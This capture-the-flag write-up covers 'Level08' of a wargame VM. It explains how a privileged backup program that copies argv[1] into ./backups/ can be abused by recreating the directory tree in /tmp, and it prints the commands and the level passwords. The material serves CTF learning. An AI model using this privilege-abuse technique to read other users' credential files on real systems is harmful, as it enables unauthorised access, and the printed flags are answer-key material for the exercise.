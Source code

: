 # Level08 - 64 bits - Open path trick

## Local script usage

Requirements:

- `gdb-peda`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level08/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level08 | `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC` |
| level09 | `fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S` |

## Steps to resolve on VM

First of all, the program needs one argument, which is a file. It will basically do a backup of its content inside the `backups` folder, and write the logs inside `.log`.

First it will open `./backups/.log` and write `LOG: Starting back up: ` + argv[1].  
Secondly it will open argv[1], with only read permissions.  
Then it will concatenate `./backups/` with argv[1], and open it.

After that it will write the content of argv[1] inside the `./backups/` + argv[1] path, and finally will write `LOG: Finished back up ` + argv[1].

So the main idea we could have would be to open `/home/users/level09` but it doesn't find the right pass when opening the `./backups/` + argv[1]

```shell
./level08 /home/users/level09/.pass
    ERROR: Failed to open ./backups//home/users/level09/.pass
```

Let's try to work on the /tmp folder where we have more rights. Firt we recreate `./backups/.log`

```shell
cd /tmp
mkdir backups; cd backups
touch .log
```

If we try the same as above, we will have the same error, because the path `./backups//home/users/level09/.pass` doesn't exist. `open` will only create the file if it doesn't exist but not the parent folders. So let's do it :

```shell
mkdir -p backups/home/users/level09
~/level08 /home/users/level09/.pass
cat backups/home/users/level09/.pass
    fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Sources

### Shell

- [mkdir -p](https://unix.stackexchange.com/questions/49263/recursive-mkdir)

### C

- [open](http://manpagesfr.free.fr/man/man2/open.2.html)
- [fopen](http://manpagesfr.free.fr/man/man3/fopen.3.html)
- [write](http://manpagesfr.free.fr/man/man2/write.2.html)